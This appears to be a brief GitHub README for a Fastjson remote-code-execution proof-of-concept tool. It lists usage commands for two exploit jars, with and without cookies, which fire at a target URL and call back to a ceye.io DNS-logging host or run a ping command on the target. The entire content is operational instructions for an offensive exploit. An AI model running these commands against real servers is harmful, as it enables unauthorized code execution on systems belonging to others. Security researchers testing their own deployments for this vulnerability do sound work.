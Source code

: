 # Fastjson-POC
Fastjson-POC

# 有cookies
java -jar fastjson-2019-Rce.jar http://attackURL/ aaaaa.ceye.io/test cookies

java -jar fast-2018-Rce.jar http://attackURL/ cookies "ping test.ceye.io"


# 无cookies

java -jar fastjson-2019-Rce.jar http://attackURL/ aaaaa.ceye.io/test null

java -jar fast-2018-Rce.jar http://attackURL/ null "ping test.ceye.io"
